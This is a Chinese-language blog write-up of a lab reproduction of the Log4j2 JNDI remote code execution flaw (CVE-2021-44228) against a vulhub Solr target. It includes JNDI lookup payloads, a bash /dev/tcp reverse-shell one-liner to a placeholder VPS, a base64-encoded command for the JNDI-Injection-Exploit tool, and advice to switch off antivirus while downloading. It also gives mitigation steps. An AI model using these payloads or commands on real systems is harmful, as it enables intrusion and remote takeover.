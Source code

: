 ```yaml
---
layout:     post
title:      Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
subtitle:   纸上得来终觉浅，绝知此事要躬行
date:       2023-7-20
author:     xuoneyuan
header-img: 
catalog: 	  true
tags:
    - 漏洞复现
---
```

### 前言
做这个漏洞复现的主要原因是因为在看微信公众号文章的时候看到了这么一张图，第一眼看的时候就没绷住，后来在空间看到一个福建来的信安天才少年发了说说就是这张图，感觉有点意思，就想着自己也来复现一下

![每次看都绷不住]({{site.baseurl}}/img-post/l-13.png)

这里我翻译一下：
- ldap://：这表示URL使用LDAP协议进行通信
- chinaran404：这是LDAP服务器的主机名或IP地址
- /loveme：这是LDAP服务器内特定资源的路径，可能是一个目录、条目或其他对象

这不禁让我想起了这张图（知乎看到的，侵删）

![真的是一个悲伤的故事]({{site.baseurl}}/img-post/l-15.png)

好了言归正传，我们来分析一下这个漏洞

### 漏洞分析
#### log4j2是什么
log4j2是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息
#### JNDI是什么
JNDI，全称为Java命名和目录接口（Java Naming and Directory Interface）,是SUN公司提供的一种标准的Java命名系统接口，允许从指定的远程服务器获取并加载对象。JNDI相当于一个用于映射的字典，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务
#### log4j2远程代码执行漏洞原理
log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）\
攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）

示意图:
![1]({{site.baseurl}}/img-post/l-17.png)
#### 漏洞等级
高危\
官方 CVSS 评分 10.0
#### 影响版本
Apache Log4j2 2.x <= 2.14.1\
Apache Log4j2 2.15.0-rc1（补丁绕过）
### 漏洞复现
#### 环境搭建
这里我使用的是vulhub，利用docker启动关闭环境
没有vulhub的可以用这个靶场：https://vulfocus.cn/#/dashboard
没有docker的先下载
![1]({{site.baseurl}}/img-post/l-1.png)
vulhub的下载
~~~
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
~~~
然后进入需要开启的漏洞路径
~~~
cd vulhub-master/xxx/xxx
docker-compose up -d
~~~
![1]({{site.baseurl}}/img-post/l-2.png)
端口是8983，我们接下来访问http://192.168.xxx.xxx:8983/solr/#/
![1]({{site.baseurl}}/img-post/l-3.png)
#### 漏洞检测
官方POC(二选一）
~~~
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
~~~
利用DnsLog平台检测dns回显，查看是否有漏洞存在，获取一个子域名
![1]({{site.baseurl}}/img-post/l-4.png)
接着我们就可以对目标网站进行测试了，访问：http://192.168.xxx.xxx:8983/solr/admin/cores?${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn }
![1]({{site.baseurl}}/img-post/l-5.png)
返回，刷新后得到数据
![1]({{site.baseurl}}/img-post/l-6.png)

#### 漏洞利用
反弹shell的命令
~~~
bash -i >& /dev/tcp/vps_ip/6666 0>&1
~~~
接着进行编码，对命令进行base64加密即可
![1]({{site.baseurl}}/img-post/l-18.png)
接下来利用现成的JNDI注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，项目地址：https://github.com/welk1n/JNDI-Injection-Exploit
（注意下载的时候要关掉一切防火墙和实时保护）
最迟到这里你的kali攻击机就要启动了，执行命令
~~~
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC92cHNfaXAvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.xxx.xxx
~~~
运行后终端如图：
![1]({{site.baseurl}}/img-post/l-7.png)
这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，我选择用ldap，JDK1.8的版本为ldap://192.168.xxx.xxx:1389/Exploit，JDK1.7的版本为：ldap://192.168.xxx.xxx:1389/Exploit 这两个版本任选一个都行
再打开一个终端开启nc
![1]({{site.baseurl}}/img-post/l-8.png)
把工具生成的payload插入到action后面
~~~
http://192.168.xxx.xxx:8983/solr/admin/cores?action=${jndi:ldap://192.168.xxx.xxx:1389/xxxxxx}
~~~
![1]({{site.baseurl}}/img-post/l-9.png)

再次返回kali我们可以看到nc成功反弹shell，但是我这里有一个小问题，就是shell没有反弹回来，查了一下csdn的一个大佬说他也反弹不回来，换了一个靶场就好了，所以可能是vulhub这个靶场的问题，我试了好几个端口比如6969，8888都没有成功反弹shell，这个时候已经凌晨2：40了，于是我决定先睡觉（~~没错我就是懒狗~~）

反弹成功的回显是这样的

![1]({{site.baseurl}}/img-post/l-11.png)

本来到这里就应该结束了，但是我还是发现一个问题，就是在JNDI注入工具上决定了你是黑客大佬还是脚本小子，如果只会用工具，那么小学生都能顺利完成这个漏洞复现（问题是我已经大学了），在JNDI脚本运行上我又出了问题

![1]({{site.baseurl}}/img-post/l-12.png)

我尝试了一下网上的方法，说是maven打包出现了问题，我照他的方法重新配置了起步依赖，但是没有用，这个事情充分说明了不会编程的hacker就是个伪命题（你给我去学Java、golang）

![1]({{site.baseurl}}/img-post/l-16.png)

#### 修复建议
1. 设置log4j2.formatMsgNoLookups=True，相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点
2. 对包含有"jndi:ldap://"、"jndi:rmi//"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入
3. 对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等
4. 升级log4j2组件到新的安全的版本

### 彩蛋
![1]({{site.baseurl}}/img-post/l-14.png)
